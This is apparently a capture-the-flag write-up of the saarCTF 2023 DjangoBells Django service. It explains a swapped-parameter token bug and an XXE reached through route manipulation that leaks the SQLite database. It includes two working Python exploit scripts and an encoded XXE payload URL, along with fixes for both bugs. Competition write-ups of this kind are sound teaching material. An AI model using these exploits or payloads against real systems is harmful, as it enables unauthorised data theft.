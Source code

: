 ```yaml
---
title: 'saarCTF 2023'
challenge: 'DjangoBells'
date: 2023-11-22T16:31:22+01:00
author: 'R1D3R175 & SimozB'
description: 'Writeup for saarCTF2023 DjangoBells service' 
cover: '/img/ctf/saarCTF2023/logo.png'
draft: false
---
```

# DjangoBells Writeup
## Challenge description
DjangoBells is a **web service** written in **Django**. Upon visiting `<IP>:8000`, two functionalities become apparent. 
The first, found on the index page, allows users to **add** a "wish" in the corresponding input box. 

{{< image src="/img/ctf/saarCTF2023/image-20231120001027326.png" position="center" alt="Hello Friend" position="center" >}}

The second is the `/list` endpoint, which displays **censored** "wishes" along with their IDs and timestamps.

{{< image src="/img/ctf/saarCTF2023/image-20231120001056857.png" position="center" alt="image-20231120001056857" >}}

## First vulnerability

Upon attempting to create a wish, we observed the URL becoming `/read/<something1>/<something2>`. A code analysis reveals that the first segment, called `id` is a **UUIDv4** for the created wish, while the second segment, called `token` should be a **randomly** **encrypted** **nonce** in MD5. 

{{< image src="/img/ctf/saarCTF2023/image-20231120001323632.png" position="center" alt="image-20231120001323632" >}}

However, an **error** exists in the code. The **Token** object, **intended** to be initialized with `(nonce, timestamp)`, is mistakenly initialized with **`(timestamp, nonce)`**. Essentially, the second part of the URL is the **MD5 of the timestamp**, which is **uncensored** in the `/list` endpoint. 

{{< image src="/img/ctf/saarCTF2023/image-20231120001543925.png" position="center" alt="image-20231120001543925" >}}

We created this simple exploit:

```python
#!/usr/bin/env python3
import requests
import sys
from bs4 import BeautifulSoup
import hashlib
import time

IP = sys.argv[1]

def get_timestamp(div):
    no_useless_tag = str(div).replace("<strong>", "").replace(
        "</strong>", "").replace("<br>}}", "")
    timestamp = no_useless_tag.split("Timestamp:")[1].strip().split("\n")[0]
    return int(timestamp)

def get_flag():
    req = requests.get(f"http://{IP}:8000/list/").text
    soup = BeautifulSoup(req, 'html.parser')
    divs = soup.find_all('div', class_='wish-item')

    for div in divs:
        timestamp = get_timestamp(div)
        curr_timestamp = int(time.time())
        if curr_timestamp - timestamp > 120:  # avoid too old posts
            continue

        passtoken = hashlib.md5(str(timestamp).encode("utf-8")).hexdigest()
        
        resp = requests.get(f"http://{IP}:8000/read/{id}/{passtoken}")
        #: get div with id "wish" (where the flag is)
        soup = BeautifulSoup(resp.text, 'html.parser')
        div_flag = soup.find('div', id='wish')
        if "SAAR" in div_flag.text:
            print(div_flag.text, flush=True)

get_flag()
```

The fix for this issue involves simply correcting the parameter order:

{{< image src="/img/ctf/saarCTF2023/image-20231120002315691.png" position="center" alt="image-20231120002315691" >}}

## Second Vulnerability

Remember the `/read` endpoint? There was something **weird** about how it was getting called...
First we go here...

{{< image src="/img/ctf/saarCTF2023/urlpatterns.png" position="center" alt="/img/ctf/saarCTF2023/urlpatterns.png" >}}

Then we go to a **`make_api_call_token`** function...

{{< image src="/img/ctf/saarCTF2023/get_post.png" position="center" alt="/img/ctf/saarCTF2023/get_post.png" >}}

{{< image src="/img/ctf/saarCTF2023/make_api_call.png" position="center" alt="/img/ctf/saarCTF2023/make_api_call.png" >}}

Now this just looks **weird**!

If we inspect the code further, we can also see that there is an **XML parser** at the **`/report`** endpoint however we **can't** call it with whatever params we want.

Let's analyze the `make_api_call_token` function, it gets passed the `post_id`, the `pass_token` and the `endpoint`... but why is the endpoint at the **end**?
Since we **can** control both the `post_id` and the `pass_token` parameters, we can call **whatever** `api` endpoint we want using this payload:
```apl
/read/<your_endpoint>/<your_param>
```
Which will then get translated to
```apl
/api/<your_endpoint>/<your_param>/read
```

How can we **abuse** this?

We entirely **bypass** the regex filter on the *original* `/report` endpoint which, for instance, was this:
{{< image src="/img/ctf/saarCTF2023/report_regex.png" position="center" alt="/img/ctf/saarCTF2023/report_regex.png" >}}
Now it's important to see **how** the **`api`** view gets called and **pinpoint** what we want to do.

{{< image src="/img/ctf/saarCTF2023/report_api_func.png" position="center" alt="/img/ctf/saarCTF2023/report_api_func.png ">}}

Our objective will now be to **leak** something (like the `db.sqlite3` file) inside the `id` field of the XML.

Since there's an **XML parser**, it made us think **instantaneously** about an **XXE** so... let's analyze the **`miniXML`** class!

{{< image src="/img/ctf/saarCTF2023/minixml_parse.png" position="center" alt="/img/ctf/saarCTF2023/minixml_parse.png ">}}

This is the *"main loop"* of the parser.
The first function, **`self.eat_XMLdecl`** doesn't do anything useful for us so we're just going to **skip** it.
Something more interesting happens in the **2nd function**, `read_doctype`.

{{< image src="/img/ctf/saarCTF2023/minixml_read_doctype.png" position="center" alt="/img/ctf/saarCTF2023/minixml_read_doctype.png ">}}

It calls a function named **`read_entity`** which sounds quite juicy, let's see what it does!

{{< image src="/img/ctf/saarCTF2023/minixml_read_entity.png" position="center" alt="/img/ctf/saarCTF2023/minixml_read_entity.png" >}}

We can see that it replaces `file://`, however we don't *really* need it ¯\\\_(ツ)_/¯. Apart from that, we can also see that it **assigns** the **content of the file** to a `xe` class variable.
Let's see **how** it is used and if we have some **constraints**...

{{< image src="/img/ctf/saarCTF2023/minixml_replace.png" position="center" alt="/img/ctf/saarCTF2023/minixml_replace.png ">}}

Also, that's how the class is initialized:

{{< image src="/img/ctf/saarCTF2023/minixml_init.png" position="center" alt="/img/ctf/saarCTF2023/minixml_init.png ">}}

We can deduce that we **cannot** add any extra keys to the `xe` attribute.
But who says we can't just **reuse** one? Suppose we have

```apl
[ <!ENTITY amp SYSTEM "db.sqlite3"> ] 
```
What would happen? It would get *translated* like this:
```apl
name = "amp"
path = "db.sqlite3"
self.xe["&amp;"] = <content_of_db.sqlite3>
```
We can **overwrite** another key without triggering that "security" check!

Now all that it's left to do is to **write** the exploit and **encode** it.
```xml
<!DOCTYPE root [
    <!ENTITY amp SYSTEM "db.sqlite3">
]>
<id>&amp;</id>
<reason>pwn3d by NASLAB</reason>
```
Just encode the payload in **base64** and then prepare the URL to **bypass** the regex on `report`, which is:

```apl
/read/report/?reason=<b64 payload>
```
This isn't enough tho... remember that it **appended** the endpoint (which in this case is `/read`)? In order to "remove" it we can just add an **`&`** and it will get counted as a **GET parameter**.

**Final payload structure**
```apl
/read/report?reason=<b64 payload>&
```

Since it **also** called `unquote` we have to **URL-encode** the payload **twice** (one for Django, one for the `unquote`)

**Exploit**

```python
#!/usr/bin/env python3
import sys
import requests
import re

IP = sys.argv[1]
FLAG_REGEX = re.compile(r"SAAR\{[A-Za-z0-9-_]{32}\}")

VULN = "read/report/%3Freport%3DPCFET0NUWVBFIHJvb3QgWzwhRU5USVRZIGFtcCBTWVNURU0gImRiLnNxbGl0ZTMiPl0%252BPGlkPiZhbXA7PC9pZD48cmVhc29uPmFzZDwvcmVhc29uPg%253D%253D%2526"

def get_flag():
    massive = requests.get(f"http://{IP}:8000/{VULN}")
    
    flags = FLAG_REGEX.findall(massive.text)
    for flag in flags:
        print(flag, flush=True)

get_flag()
```

**Fix**

An easy fix is just to disallow `report` as the `post_id`.

{{< image src="/img/ctf/saarCTF2023/fix_vuln2.jpg" position="center" alt="/img/ctf/saarCTF2023/fix_vuln2.jpg" >}}



_- NASLAB_